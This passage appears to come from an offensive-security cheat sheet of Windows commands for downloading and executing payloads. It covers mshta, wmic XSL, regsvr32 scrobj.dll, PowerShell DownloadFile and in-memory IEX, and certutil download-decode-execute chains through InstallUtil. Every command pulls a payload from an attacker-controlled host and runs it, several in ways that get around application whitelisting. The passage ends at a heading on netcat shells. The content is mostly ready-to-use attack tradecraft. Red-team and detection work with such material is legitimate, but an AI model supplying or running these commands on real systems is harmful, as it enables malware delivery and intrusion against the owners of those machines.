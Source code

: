 ```
# Method 1
mshta vbscript:Close(Execute("GetObject(""script:http://IP/payload.sct"")"))

# Method 2
mshta http://IP/payload.hta

# Method 3 (Using WebDav)
mshta \\IP\payload.hta

#Download and execute XSL using wmic
wmic os get /format:"https://webserver/payload.xsl"


# Download and execute over a WebServer:
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll

# Using WebDAV
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll

# Powershell Cmdlet
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"

# Powershell One-Line
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 

# In Memory Execution
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')


```

### Multiple ways using certutil

```
# Multiple ways to download and execute files:
certutil -urlcache -split -f http://webserver/payload payload

# Execute a specific .dll:
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll

# Execute an .exe:
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe



```

### Tips for non-interactive shell using nc
